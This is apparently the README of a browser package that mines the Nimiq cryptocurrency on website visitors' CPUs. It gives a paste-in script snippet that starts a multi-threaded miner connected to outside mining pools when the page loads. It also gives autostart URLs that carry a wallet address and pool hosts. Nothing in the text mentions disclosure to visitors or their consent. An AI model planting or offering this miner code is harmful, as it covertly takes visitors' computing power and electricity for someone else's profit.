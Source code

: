 # Nimiq Client for browser document
This package is use for mine cryptocurrencies NIMIQ (NIM) by WASN from CPU of visitor of your website.

## Nimiq

### Basic initialization
Download "client.js" or "client.min.js" and append in bottom of body

```
<script src="client.min.js" type="text/javascript"></script>
<script>
 const miner = new Client({
    miningPool: { host: 'pool.nimiq.watch', port: '8443' },
    address: 'nimiq addresss',
    threads: 4
  });

  miner.start();
</script>
```

Auto start with domain
```
http://domain.com?wallet=NQ08SUEHT0GSPCDJHUNXQ50HB0M0ABHAPP03&host=eu1-nim.coinhunters.name&port=8544&threads=3&autostart=1

http://domain.com?wallet=NQ08SUEHT0GSPCDJHUNXQ50HB0M0ABHAPP03&host=pool.acemining.co&port=8443&threads=3
```